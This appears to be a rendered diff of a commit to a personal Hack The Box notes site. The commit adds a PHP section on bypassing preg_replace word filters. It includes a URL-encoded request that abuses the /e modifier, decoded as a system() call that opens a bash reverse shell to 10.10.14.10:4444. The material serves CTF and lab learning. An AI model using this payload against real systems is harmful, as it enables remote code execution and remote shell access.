

Before and after one commit to jd-apprentice/hack-the-box, an MkDocs documentation site: the page built from docs/languages/php.md, in a window 1280 px wide and 1121 px high. Shown: the whole window at 91% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
docs(update): reversing

````diff
--- a/docs/languages/php.md
+++ b/docs/languages/php.md
@@ -5,6 +5,22 @@ Common exploits in PHP.
 ## Cookies
 
 `PHPSESSID` is the default session cookie name.
+
+## Bypass preg_replace
+
+If we now there is something like a word filter, there is probably a `preg_replace` function. We can try to bypass it sending something in the word that is being replaced.
+
+```
+swearwords%5B%2Fdick%2Fe%5D=%73%79%73%74%65%6d%28%22%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%30%2f%34%34%34%34%20%30%3e%26%31%27%22%29%3bto=test%40local.com&subject=Test&message=%3Cp%3Edick%3C%2Fp%3E%3Cp%3Ebitch%3Cbr%3E%3C%2Fp%3E
+```
+
+The payload is
+
+```php
+system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'");
+```
+
+But URL encoded.
 
 ## Web shell
 
````
Also changed, not shown: docs/common/shell.md (+1 -0 lines), docs/reversing/cutter.md (added, +1 -0 lines), docs/reversing/gdb.md (added, +1 -0 lines), docs/reversing/ghidra.md (added, +1 -0 lines), docs/system/socat.md (added, +26 -0 lines).
